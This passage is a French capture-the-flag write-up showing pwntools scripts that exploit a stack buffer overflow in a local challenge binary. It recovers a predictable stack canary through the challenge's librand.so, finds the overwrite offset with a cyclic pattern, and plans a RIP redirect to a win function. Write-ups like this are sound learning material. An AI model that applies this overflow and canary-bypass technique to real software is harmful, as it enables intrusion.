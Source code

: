 💣 Pour l'exploitation, il nous faudra donc aller jusqu'au 9 éme tirage minimum, remplir le buffer de 72 bytes, écraser le canary par 1804289383 et écraser RIP par l'adresse de la fonction gagne 000000000040127F. Pour nous aider, nous allons utiliser pwntools.

Si on reprend notre code python on observe qu'on smash le canary sur une valeur de 61616173

```python
from pwn import *
import ctypes

lib = ctypes.CDLL('./librand.so')
lib.generate_random.restype = ctypes.c_int
canary = lib.generate_random()
print(canary)

io = process(["./1_chal"])
io.sendlineafter(b'Etes vous un nouvel arrivant ? (y/n)',b'Y')

for i in range(8):
    io.sendlineafter(b'Quel est votre choix :',b'A')
    io.sendlineafter(b'On continue ? (y/n)',b'y')

nbr_if_char = cyclic(80)

io.sendlineafter(b'Quel est votre choix :',nbr_if_char)
print(io.recvline())
print(io.recv().decode())
```

![](attachment/4a2d8de1426dd47d5571b2f237c099c8.png)

On va donc chercher cette valeur et l'écraser par le canary pour voir si on arrive à passer ce check : 

```python
from pwn import *
import ctypes

lib = ctypes.CDLL('./librand.so')
lib.generate_random.restype = ctypes.c_int
canary = lib.generate_random()
print(canary)

io = process(["./1_chal"])
io.sendlineafter(b'Etes vous un nouvel arrivant ? (y/n)',b'Y')

for i in range(8):
    io.sendlineafter(b'Quel est votre choix :',b'A')
    io.sendlineafter(b'On continue ? (y/n)',b'y')

nbr_if_char = cyclic(80)
n = cyclic_find(0x61616173)

io.sendlineafter(b'Quel est votre choix :',(b'A'*n)[:n]+p64(canary))
print(io.recvline())
print(io.recv().decode())
```
